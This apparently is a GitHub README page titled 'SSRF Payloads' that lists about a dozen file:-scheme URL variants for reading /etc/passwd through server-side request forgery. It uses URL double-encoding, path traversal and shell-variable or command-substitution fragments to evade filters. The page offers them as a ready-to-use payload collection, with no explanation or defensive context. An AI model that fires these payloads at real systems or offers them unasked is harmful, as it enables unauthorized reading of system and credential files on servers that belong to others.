 
<h1 align="center">SSRF Payloads/h1>
## /etc/passwd

<pre><code>
file:/etc/passwd?/
file:/etc/passwd%3F/
file:/etc%252Fpasswd/
file:/etc%252Fpasswd%3F/
file:///etc/?/../passwd
file:///etc/%3F/../passwd
file:${br}/et${u}c/pas${te}swd?/
file:$(br)/et$(u)c/pas$(te)swd?/
file:${br}/et${u}c%252Fpas${te}swd?/
file:$(br)/et$(u)c%252Fpas$(te)swd?/
file:${br}/et${u}c%252Fpas${te}swd%3F/
file:$(br)/et$(u)c%252Fpas$(te)swd%3F/
file:///etc/passwd?/../passwd
</code></pre>
